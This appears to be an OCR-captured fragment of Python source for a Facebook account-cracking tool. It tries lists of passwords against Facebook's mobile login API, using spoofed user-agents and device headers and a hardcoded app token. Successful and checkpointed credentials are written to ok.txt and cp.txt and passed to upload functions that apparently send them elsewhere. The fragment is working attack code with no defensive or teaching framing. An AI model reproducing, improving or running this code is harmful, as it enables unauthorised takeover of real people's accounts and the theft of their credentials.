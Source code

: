 		

	def api(self, uid, pwx):
		ua = random.choice([
			"Mozilla/5.0 (Linux; Android 11; RMX2195) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Mobile Safari/537.36;]",
			"Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Mobile Safari/537.36",
			"Mozilla/5.0 (Linux; U; Android 7.0; id-id; Redmi Note 4 Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/89.0.4389.116 Mobile Safari/537.36 XiaoMi/MiuiBrowser/12.15.3-go"
			"Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16';]"
		])
		sys.stdout.write(
			"\r\r %s[/] %s/%s -> \033[0;92m [OK:%s ]- \033[0;91m[CP:%s ]"%(B,self.loop, len(self.id), len(self.cp), len(self.ok))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r \033[0;92m[OK] %s|%s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write(" [-OK] %s|%s\n"%(uid, pw))
				uploadoks()
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r \033[0;92m[OK] %s|%s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write(" [-CP] %s|%s\n"%(uid, pw))
				uploadcps()
				break
			else:
				continue

		self.loop +=1

if len(sys.argv) == 2:
	if sys.argv[1] == "--help" or sys.argv[1] == "-h":
		helpnote()
	else:
		Main()

try:Main()
except Exception as e:exit(str(e))
